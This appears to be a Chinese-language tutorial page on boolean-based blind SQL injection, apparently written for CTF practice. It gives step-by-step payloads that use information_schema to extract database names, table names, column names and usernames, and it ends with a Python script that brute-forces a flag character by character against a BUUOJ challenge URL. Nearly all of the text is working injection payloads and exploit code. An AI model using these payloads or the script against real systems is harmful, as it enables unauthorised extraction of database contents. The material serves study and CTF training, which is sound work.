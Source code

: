 ## 布尔盲注
原理：运用截取单个字符，用ascii码进行加密，用if进行判断，根据页面的回显情况，判断每个字符的ascii码，最后一点点试出来数据库的信息

常用函数：
```
substr    截断
mid       同理截断
mid(flag, num, 1)函数尝试获取flag字符串中第num个字符的值

left      从左边开始截断
right     从右边开始截断
ord       ascii码加密 ，用于将一个字符（即一个长度为1的字符串）转换为它的 ASCII 码值
ascii     ascii码加密，用于将一个字符串中的所有字符转换为它们的 ASCII 码值的字符串表示
char      ascii码解密
length    统计长度

对于orderby可以用 case when语句，if()语句。
```


通常采用下面的办法猜解字符串：
```
where length(database())=4 --+
' and length(database())=8 --+
' and ascii(substr(database(),1,1)) > N --+
' and ascii(substr(database(),1,1)) = N --+
' and ascii(substr(database(),1,1)) < N --+
```


## 获取数据库名

**找到注入点，判断闭合情况\
获取数据库名 先得到数据库名的长度**

```
and length(database())>5
```

## []()再依次获取数据库名的每一个字符

```
and ascii(substr(database(),1,1))>97
```

## []()先获取表数量

```
and (select count(\*) from information_schema.tables where table_schema=database())>5
```

## []()再用limit依次获取每个表名的长度

```
and (select length(table_name) from information_schema.tables where table_schema=database() limit 0,1)>5
```

## []()最后获取每个表名的名字

```
and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>97
```

## []()先获取列名个数

```
and (select count(*) from information_schema.columns where table_name='users' and table_schema=database())>5
```

## []()再获取列名长度

```
and (select length(column_name) from information_schema.columns where table_name='users’ and table_schema=database() limit 0,1)>5
```

## []()最后获取列名

```
and ascii(substr((select column_name from information_schema.columns where table_name='users' and table_schema=database() limit 0,1),1,1))>97
```

## []()先确定第一个用户名长度

```
and (select length(username) from users limit 0,1)>5
```

## []()再确定用户名每一个字符的对应字母

```
and ascii(substr((select username from users limit 0,1),1,1))>97
```
^
## **盲注脚本**
```
# -*- coding:utf-8 -*-
# Author: mochu7
import requests
import string

def blind_injection(url):
	flag = ''
	strings = string.printable
	for num in range(1,60):
		for i in strings:
			payload = '(select(ascii(mid(flag,{0},1))={1})from(flag))'.format(num,ord(i))
			post_data = {"id":payload}
			res = requests.post(url=url,data=post_data)
			if 'Hello' in res.text:
				flag += i
				print(flag)
			else:
				continue
	print(flag)


if __name__ == '__main__':
	url = 'http://64368c9f-dd87-4c49-b9a1-d4b82e98c87a.node3.buuoj.cn/index.php'
	blind_injection(url)

```